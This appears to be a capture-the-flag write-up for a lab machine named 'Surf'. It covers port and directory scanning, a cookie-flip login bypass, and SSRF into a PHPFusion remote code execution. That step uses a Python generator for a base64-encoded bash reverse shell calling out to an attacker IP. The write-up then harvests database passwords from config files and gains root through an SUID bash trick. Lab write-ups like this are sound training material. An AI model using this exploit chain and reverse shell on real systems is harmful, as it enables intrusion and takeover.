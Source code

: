 # Surf

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.171   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:06 +08
Nmap scan report for 192.168.175.171
Host is up (0.17s latency).
Not shown: 41614 filtered tcp ports (no-response), 23919 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Surfing Blog --> Login Bypass

Port 80 took so long to load I didn't bother with it. Instead, I started with a `gobuster` scan:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.171 -t 100    
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.171
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 16:19:50 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.175.171/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.175.171/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.175.171/js/]
/administration       (Status: 301) [Size: 327] [--> http://192.168.175.171/administration/]
```

There's an administration directory present, and when viewed it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

I tried default and weak credentials, but they don't work. When the traffic is viewed in Burp, we can see that there are some tokens being passed around:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

The `auth_status` cookie is just a `base64` encoded string of `{'success':'false'}`. Afterwards, the `auth_status` cookie is appended to every subsequent login attempt. We can easily replace this with `true` and be granted access to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### SSRF --> RCE

Within the website, there isn't much functionality, but there is a 'Check Server Status' function:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Here's the HTTP request sent:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=nvesm039uh8qqsd19aqv25jhg3
Upgrade-Insecure-Requests: 1



url=http%3A%2F%2F127.0.0.1%3A8080
```

This looks vulnerable to a SSRF, and we can confirm it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Also, it tells us that the backend server is running PHPFusion. There are a few exploits available for PHPFusion:

```
$ searchsploit phpfusion    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
PHPFusion 9.03.50 - Persistent Cross-Site Scripting        | php/webapps/48497.txt
PHPFusion 9.03.50 - Remote Code Execution                  | php/webapps/49911.py
----------------------------------------------------------- ---------------------------------
```

We can download and view the RCE exploit to find that the exploit is triggered by sending a request to `/infusions/downloads/downloads.php?cat_id=${system(ls)}`.&#x20;

Using the exploit, we can create a payload generator as such:

```python
import base64
PAYLOAD = "bash -c  'bash  -i >& /dev/tcp/192.168.45.164/443 0>&1'  " # !!spaces are important in order to avoid ==!!
REQUEST_PAYLOAD = "/infusions/downloads/downloads.php?cat_id=$\{{system(base64_decode({})).exit\}}"

PAYLOAD_B64 = base64.b64encode(PAYLOAD.encode('ascii')).decode("ascii")
print(REQUEST_PAYLOAD.format(PAYLOAD_B64))
```

This would print `base64` encoded payload, which we can submit like so:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=rnaerbm2cbt3193qgev658ap3k
Upgrade-Insecure-Requests: 1



url=http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=$\{system(base64_decode(YmFzaCAtYyAgJ2Jhc2ggIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTY0LzQ0MyAwPiYxJyAg)).exit\}
```

Then we can get a reverse shell and grab the user flag:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### James Creds

As usual, we should be looking at credential files within the website. There are some in the `/var/www/html/config.php` file:

```php
<?php
// database settings
$db_host = 'localhost';
$db_port = '3306';
$db_user = 'phpfusion';
$db_pass = 'phpfusion';
$db_name = 'phpfusion';
$db_prefix = 'fusionc6Jb6_';
$db_driver = 'pdo';
define("DB_PREFIX", "fusionc6Jb6_");
define("COOKIE_PREFIX", "fusion33hvd_");
define("SECRET_KEY", "2RH443cPDc588jUkNtQ29fjHwJIS89Ez");
define("SECRET_KEY_SALT", "F6UU9T38pjH48myWA3HqkkN431l26GkI");
```

There are other files in the `/var/www` file present as well:

```
www-data@Surf:/var/www$ ls   
html  server
```

We can find credentials inside the `server` file for the user `james`.&#x20;

```php
www-data@Surf:/var/www/server/administration/config$ cat config.php 
<?php

//Note: This file should be included first in every php page.
error_reporting(E_ALL);
ini_set('display_errors', 'On');
define('BASE_PATH', dirname(dirname(__FILE__)));
define('APP_FOLDER', 'simpleadmin');
define('CURRENT_PAGE', basename($_SERVER['REQUEST_URI']));

require_once BASE_PATH . '/lib/MysqliDb/MysqliDb.php';
require_once BASE_PATH . '/helpers/helpers.php';

/*
|--------------------------------------------------------------------------
| DATABASE CONFIGURATION
|--------------------------------------------------------------------------
 */

define('DB_HOST', "localhost");
define('DB_USER', "core");
define('DB_PASSWORD', "FlyToTheMoon213!");
define('DB_NAME', "corephpadmin");

/**
 * Get instance of DB object
 */
function getDbInstance() {
        return new MysqliDb(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
}
```

We can then `su` to `james`:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password for `james`, we can check our `sudo` privileges:

```
james@Surf:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for james: 
Matching Defaults entries for james on Surf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User james may run the following commands on Surf:
    (ALL) /usr/bin/php /var/backups/database-backup.php
```

This file is owned by `www-data` and we can write to it:

```
james@Surf:/home$ ls -la /var/backups/database-backup.php
-rwxr-xr-x 1 www-data www-data 2758 Nov  9  2021 /var/backups/database-backup.php
```

The exploit would be to write a small snippet making `/bin/bash` an SUID binary and then executing it as `james`.&#x20;

We can use `vi` to edit the file to include `system("chmod u+s /bin/bash");`, and then use `:wq!` to force the save. Afterwards, when we can run the file using `sudo` as `james`:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Then we can easily become the `root` user:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
